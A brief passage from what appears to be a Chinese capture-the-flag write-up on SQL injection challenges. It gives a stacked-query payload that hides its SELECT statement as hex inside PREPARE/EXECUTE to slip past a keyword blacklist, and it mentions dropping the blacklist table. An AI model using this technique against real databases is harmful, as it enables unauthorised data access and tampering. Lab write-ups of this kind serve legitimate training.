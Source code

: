![2271](/medias/show-sql/2271.png)

## web 228 -- web 230 思路相同

这题把黑名单字符串放进了数据库的一个表里了，不给看，好思路。如果可以把这个表删了是不是就无敌了，不过现在使用16进制执行命令也没什么限制，哈哈

```sql
ctf';prepare a from 0x53454C454354202A2046524F4D20696E666F726D6174696F6E5F736368656D612E524F5554494E4553;execute a;#
```

## web 231 update注入

在网络界面js里找到传参的方式
